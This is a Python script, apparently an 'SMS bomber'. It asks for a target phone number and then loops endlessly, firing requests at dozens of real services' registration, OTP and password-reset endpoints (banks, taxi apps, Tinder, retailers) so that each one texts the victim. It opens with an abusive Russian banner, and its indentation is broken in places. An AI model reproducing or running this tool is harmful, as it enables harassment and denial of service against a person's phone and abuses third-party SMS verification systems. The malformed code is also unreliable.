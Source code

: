 import threading
import time
import requests, random, datetime, sys, time, argparse, os
print("""
╭━━━╮╱╱╱╱╱╱╱╱╭╮╭╮
╰╮╭╮┃╱╱╱╱╱╱╱╭╯╰┫┃
╱┃┃┃┣━━┳━━┳╮┣╮╭┫╰━╮
╱┃┃┃┃┃━┫╭╮┃┃┃┃┃┃╭╮┃
╭╯╰╯┃┃━┫╭╮┃╰╯┃╰┫┃┃┃
╰━━━┻━━┻╯╰┻━━┻━┻╯╰╯ сосать шлюха""")
phone = input("\033[32m Введите номер +")
def qw(_phone):
    if _phone[0] == '+':
        _phone = _phone[1:]
    if _phone[0] == '8':
        _phone = '7'+_phone[1:]
    if _phone[0] == '9':
        _phone = '7'+_phone
_phone = phone
    _name = ''
    for x in range(12):
        _name = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
        password = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
        username = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))

    _phone9 = _phone[1:]
    _phoneAresBank = '+'+_phone[0]+'('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    _phone9dostavista = _phone9[:3]+'+'+_phone9[3:6]+'-'+_phone9[6:8]+'-'+_phone9[8:10]
    _phoneOstin = '+'+_phone[0]+'+('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    _phonePizzahut = '+'+_phone[0]+' ('+_phone[1:4]+') '+_phone[4:7]+' '+_phone[7:9]+' '+_phone[9:11]
    _phoneGorzdrav = _phone[1:4]+') '+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    s = 0
    iteration = 0
    while True:
        _email = _name+f'{iteration}'+'@gmail.com'
        email = _name+f'{iteration}'+'@gmail.com'
try:
            requests.post('https://p.grabtaxi.com/api/passenger/v2/profiles/register', data={'phoneNumber': _phone,'countryCode': 'ID','name': 'test','email': 'mail@mail.com','deviceToken': '*'}, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36'})
        except:
            s=s
        try:
            requests.post('https://moscow.rutaxi.ru/ajax_keycode.html', data={'l': _phone9}).json()["res"]
        except:
            s=s

        try:
            requests.post('https://belkacar.ru/get-confirmation-code', data={'phone': _phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://api.gotinder.com/v2/auth/sms/send?auth_type=sms&locale=ru', data={'phone_number': _phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://api.tinkoff.ru/v1/sign_up', data={'phone': '+'+_phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://api.mtstv.ru/v1/users', json={'msisdn': _phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://youla.ru/web-api/auth/request_code', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://pizzahut.ru/account/password-reset', data={'reset_by':'phone', 'action_id':'pass-recovery', 'phone': _phonePizzahut, '_token':'*'})
        except:
            s=s

        try:
            requests.post('https://www.rabota.ru/remind', data={'credential': _phone})
        except:
            s=s

        try:
            requests.post('https://rutube.ru/api/accounts/sendpass/phone', data={'phone': '+'+_phone})
        except:
            requests.post('https://www.citilink.ru/registration/confirm/phone/+'+_phone+'/')

        try:
            requests.post('https://www.smsint.ru/bitrix/templates/sms_intel/include/ajaxRegistrationTrigger.php', data={'name': _name,'phone': _phone, 'promo': 'yellowforma'})
        except:
            s=s

        try:
            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.get('https://www.oyorooms.com/api/pwa/generateotp?phone='+_phone9+'&country_code=%2B7&nod=4&locale=en')
        except:
            s=s

        try:
            requests.post('https://www.mvideo.ru/internal-rest-api/common/atg/rest/actors/VerificationActor/getCodeForOtp', params={'pageName': 'loginByUserPhoneVerification', 'fromCheckout': 'false','fromRegisterPage': 'true','snLogin': '','bpg': '','snProviderId': ''}, data={'phone': _phone,'g-recaptcha-response': '','recaptcha': 'on'})
        except:
            s=s

        try:
            requests.post('https://newnext.ru/graphql', json={'operationName': 'registration', 'variables': {'client': {'firstName': 'Иван', 'lastName': 'Иванов', 'phone': _phone,'typeKeys': ['Unemployed']}},'query': 'mutation registration($client: ClientInput!) {''\n  registration(client: $client) {''\n    token\n    __typename\n  }\n}\n'})
        except:
            s=s

        try:
            requests.post('https://api.sunlight.net/v3/customers/authorization/', data={'phone': _phone})
        except:
            s=s
        try:
            requests.post('https://alpari.com/api/ru/protection/deliver/2f178b17990ca4b7903aa834b9f54c2c0bcb01a2/', json={'client_type': 'personal', 'email': _email, 'mobile_phone': _phone, 'deliveryOption': 'sms'})
        except:
            s=s

        try:
            requests.post('https://lk.invitro.ru/lk2/lka/patient/refreshCode', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://online.sbis.ru/reg/service/', json={'jsonrpc':'2.0','protocol':'5','method':'Пользователь.ЗаявкаНаФизика','params':{'phone':_phone},'id':'1'})
        except:
            s=s

        try:
            requests.post('https://ib.psbank.ru/api/authentication/extendedClientAuthRequest', json={'firstName':'Иван','middleName':'Иванович','lastName':'Иванов','sex':'1','birthDate':'10.10.2000','mobilePhone': _phone9,'russianFederationResident':'true','isDSA':'false','personalDataProcessingAgreement':'true','bKIRequestAgreement':'null','promotionAgreement':'true'})
        except:
            s=s

        try:
            requests.post('https://myapi.beltelecom.by/api/v1/auth/check-phone?lang=ru', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms', json={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.post("https://api.carsmile.com/",json={"operationName": "enterPhone", "variables": {"phone": _phone},"query": "mutation enterPhone($phone: String!) {\n  enterPhone(phone: $phone)\n}\n"})
        except:
            s=s

        try:
            requests.post('https://www.citilink.ru/registration/confirm/phone/+' + _phone + '/')
        except:
            s=s

        try:
            requests.post("https://api.delitime.ru/api/v2/signup",data={"SignupForm[username]": _phone, "SignupForm[device_type]": 3})
        except:
            s=s

        try:
            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.post("https://guru.taxi/api/v1/driver/session/verify",json={"phone": {"code": 1, "number": _phone}})
        except:
            s=s

        try:
            requests.post('https://www.icq.com/smsreg/requestPhoneValidation.php',data={'msisdn': _phone, "locale": 'en', 'countryCode': 'ru','version': '1', "k": "ic1rtwz1s1Hj1O0r", "r": "46763"})
        except:
            s=s

        try:
            requests.post("https://terra-1.indriverapp.com/api/authorization?locale=ru",data={"mode": "request", "phone": "+" + _phone,"phone_permission": "unknown", "stream_id": 0, "v": 3, "appversion": "3.20.6","osversion": "unknown", "devicemodel": "unknown"})
        except:
            s=s

        try:
            requests.post("https://lk.invitro.ru/sp/mobileApi/createUserByPassword", data={"password": password, "application": "lkp", "login": "+" + _phone})
        except:
            s=s

        try:
            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.post('https://ube.pmsm.org.ru/esb/iqos-phone/validate',json={"phone": _phone})

        except:
            s=s

        try:
            requests.post("https://api.ivi.ru/mobileapi/user/register/phone/v6",data={"phone": _phone})
        except:
            s=s
